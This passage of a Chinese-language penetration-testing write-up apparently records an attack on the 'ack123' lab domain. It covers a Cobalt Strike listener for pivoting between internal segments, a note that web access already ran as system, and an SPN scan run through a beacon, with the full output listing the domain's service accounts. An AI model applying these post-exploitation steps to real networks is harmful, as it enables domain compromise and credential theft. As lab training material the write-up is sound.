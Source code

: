 这里我们将不出网的`192.168.22.133`段转发到出网的`192.168.76.107`所在段，那么我们在CS监听器中这样设置，http proxy 部分是内网转发端口，此外注意生成的exe需选择 **Windows Executalbe（S)**。

![19]({{ '/ack123/19.png' | prepend: site.url }})

## 提权

因为web权限直接是`system`权限，那么就不需要提权了。

# 域环境渗透

## 凭证获取（web2）

![20]({{ '/ack123/20.png' | prepend: site.url }})

## SPN扫描（web2）

```shell
beacon> shell setspn -T ack123.com -q */*
```

```
beacon> shell setspn -T ack123.com -q */*
[*] Tasked beacon to run: setspn -T ack123.com -q */*
[+] host called home, sent: 58 bytes
[+] received output:
正在检查域 DC=ack123,DC=com
CN=Administrator,CN=Users,DC=ack123,DC=com
	mysql/16server-dc1.ack123.com
CN=16SERVER-DC1,OU=Domain Controllers,DC=ack123,DC=com
	Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/16server-dc1.ack123.com
	ldap/16server-dc1.ack123.com/ForestDnsZones.ack123.com
	ldap/16server-dc1.ack123.com/DomainDnsZones.ack123.com
	DNS/16server-dc1.ack123.com
	GC/16server-dc1.ack123.com/ack123.com
	RestrictedKrbHost/16server-dc1.ack123.com
	RestrictedKrbHost/16SERVER-DC1
	RPC/fc2c7a98-defb-4143-8052-ec1832c2a8f0._msdcs.ack123.com
	HOST/16SERVER-DC1/ACK123
	HOST/16server-dc1.ack123.com/ACK123
	HOST/16SERVER-DC1
	HOST/16server-dc1.ack123.com
	HOST/16server-dc1.ack123.com/ack123.com
	E3514235-4B06-11D1-AB04-00C04FC2DCD2/fc2c7a98-defb-4143-8052-ec1832c2a8f0/ack123.com
	ldap/16SERVER-DC1/ACK123
	ldap/fc2c7a98-defb-4143-8052-ec1832c2a8f0._msdcs.ack123.com
	ldap/16server-dc1.ack123.com/ACK123
	ldap/16SERVER-DC1
	ldap/16server-dc1.ack123.com
	ldap/16server-dc1.ack123.com/ack123.com
CN=krbtgt,CN=Users,DC=ack123,DC=com
	kadmin/changepw
CN=12SERVER-DATA2,CN=Computers,DC=ack123,DC=com
	WSMAN/12server-data2
	WSMAN/12server-data2.ack123.com
	RestrictedKrbHost/12SERVER-DATA2
	HOST/12SERVER-DATA2
	RestrictedKrbHost/12server-data2.ack123.com
	HOST/12server-data2.ack123.com
CN=12SERVER-WEB2,CN=Computers,DC=ack123,DC=com
	TERMSRV/12SERVER-WEB2
	TERMSRV/12server-web2.ack123.com
```